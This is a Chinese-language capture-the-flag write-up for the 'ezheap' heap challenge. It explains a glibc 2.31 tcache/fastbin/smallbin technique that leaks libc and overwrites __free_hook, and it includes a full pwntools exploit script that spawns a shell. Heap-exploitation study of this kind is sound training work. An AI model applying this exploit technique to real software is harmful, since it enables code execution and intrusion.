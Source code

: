 ```yaml
---
title: newstar2023 week4 - ezheap
date: 2023/10/18 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - heap - fastbin
    - libc2.31
excerpt: 利用堆漏洞和libc 2.31中的free hook，成功实现了对系统调用的利用。
---
```


## 文件分析

下载`ezheap`, 保护全开  
ghidra分析为64位程序

## 解题思路

是一个note录入程序，很明显是堆题

libc是2.31，有tcache，有tcache校验，不方便double free；hook还在，考虑利用

tcathe能存7个相同size的chunk，先消耗掉，就可以把接下去分配的chunk放到
fastbin 里，然后通过分配大chunk来把fastbin里的chunk扫到smallbin里，
smallbin里就有libc，拿到libcBase就可以求偏移改hook，调system

这道题的限制:  
notebook有限，可以通过分配与note结构一样大的 "字符串"
来快速消耗tcache；  
edit函数检验了note的首项，如果不经修改，就是fd，
无法成功利用，需要先伪造note结构通过检验，还要把字符串地址改为freeHook，
就能把system写进freeHook里；  
freeHook还不在debug符号里，需要自己推出来

## EXPLOIT

```python
from pwn import *
lo = 1

if lo:
    sh = process('ezheap')
    gdb.attach(sh)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')
else:
    sh = remote('node4.buuoj.cn', 25961)
    libc = ELF('libc-2.31.so')

def addn(idx:int, size:int, note:bytes=b'what'):
    sh.recvuntil(b'>>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'size')
    sh.sendline(str(size).encode())
    sh.recvuntil(b'note')
    sh.sendline(note)

def deln(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def show(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'3')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def edit(idx:int, note:bytes):
    sh.recvuntil(b'>>')
    sh.sendline(b'4')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(note)

addn(0, 64)
addn(1, 64)
addn(2, 64)
addn(3, 64)
addn(4, 64)
addn(5, 64)
addn(6, 64)
addn(7, 64)
addn(8, 64)
deln(6)
deln(5)
deln(4)
deln(3)
deln(2)
deln(1)
deln(0)
deln(8)
deln(7)
"""
bins now:
inuse: (size 0x51) 0 ~ 8
tcache: head -> 0 -> 1 -> 2 -> 3 -> 4 -> 5 -> 6 (full)
fastbin: head -> 7 -> 8
"""

addn(9, 1024)       #0 huge chunk to trigger malloc consolidate
"""
bins now:
inuse: ...
tcache: head -> 1 -> 2 -> 3 -> 4 -> 5 -> 6
small bins: head <-> 7 <-> 8 <-> tail
"""
addn(10, 64)        #1
addn(11, 32)        #2, 3 alloc 0x20 unit to consume bins quickly
addn(12, 32)        #4, 5
addn(13, 32, b'\n') #6, 8 FIFO; '\n' to avoid writing on fd
edit(13, b'')       # write a '\n' in the end (will be amended below)
show(13)            # chunk 8 in small bins, fd is libc addr

sh.recvuntil(b'(0~15): \n') # skip

# find offset first
dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
print('main_arena in libc:', hex(dumpArena))

# read and shift addr to libcBase
mainArena = u64(sh.recv(6) + b'\0\0') - 0x0a - 0x80 # sub '\n' & small bin offset
print('main_arena  actual:', hex(mainArena))
libcBase = mainArena - dumpArena
freeHook = libcBase + libc.symbols['__free_hook']
systemAddr = libcBase + libc.symbols['system']

edit(11, p64(64) + b'0'*0x10 + p64(freeHook)) # forge notebook[3], notebook[3] -> str = freeHook
edit(12, b'/bin/sh\0')                        # forge notebook[5] as the arg of system
edit(3, p64(systemAddr))                      # notebook[3] -> size == sizes[3] => *freeHook = systemAddr
deln(5)                                       # trigger freeHook

sh.interactive()
```

Done.
